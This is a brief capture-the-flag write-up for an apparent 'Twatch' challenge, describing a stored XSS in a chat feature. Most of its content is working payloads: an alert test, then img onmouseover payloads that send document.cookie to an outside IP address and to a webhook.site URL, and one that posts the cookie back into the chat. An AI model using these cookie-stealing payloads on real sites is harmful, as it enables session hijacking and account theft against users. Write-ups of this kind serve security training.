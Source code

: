# WriteUp for the Twatch Challenge

## Recon
Check the chat! -> Stored XSS

## Exploit
Config router to port forward
this XSS works = <IMG SRC=# onmouseover="alert('xxs')">

### Post/get
#### Exploit using a python3 http.server 80 
<img src=x onmouseover=this.src='http://79.146.124.94/?c='+document.cookie>
#### Exploit using a webhook
https://webhook.site/7e4d55f6-1c69-49ea-8530-c23ea7334a39
<img src=x onmouseover=this.src='https://webhook.site/7e4d55f6-1c69-49ea-8530-c23ea7334a39/?c='+document.cookie>


sendMessage("<img src=x onmouseover=sendMessage(document.cookie)>")


